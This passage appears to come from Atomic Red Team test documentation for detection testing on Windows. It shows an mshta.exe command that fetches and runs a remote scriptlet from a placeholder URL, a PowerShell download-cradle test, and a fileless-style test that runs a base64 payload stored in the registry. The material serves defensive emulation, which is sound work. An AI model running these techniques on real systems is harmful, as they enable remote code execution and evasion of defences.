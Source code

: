 #### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```

<br/>
<br/>

## Atomic Test #10 - Powershell Invoke-DownloadCradle

Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows

#### Run it with these steps!

1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1

<br/>
<br/>

## Atomic Test #11 - PowerShell Fileless Script Execution

Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections. Upon
exection, open "C:\Windows\Temp" and verify that
art-marker.txt is in the folder.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
# Encoded payload in next command is the following "Set-Content -path "$env:SystemRoot/Temp/art-marker.txt" -value "Hello from the Atomic Red Team""
reg.exe add "HKEY_CURRENT_USER\Software\Classes\AtomicRedTeam" /v ART /t REG_SZ /d "U2V0LUNvbnRlbnQgLXBhdGggIiRlbnY6U3lzdGVtUm9vdC9UZW1wL2FydC1tYXJrZXIudHh0IiAtdmFsdWUgIkhlbGxvIGZyb20gdGhlIEF0b21pYyBSZWQgVGVhbSI="
iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\AtomicRedTeam').ART)))
```

#### Cleanup Commands:

```powershell
Remove-Item -path C:\Windows\Temp\art-marker.txt -Force -ErrorAction Ignore
Remove-Item HKCU:\Software\Classes\AtomicRedTeam -Force -ErrorAction Ignore
```

<br/>
<br/>
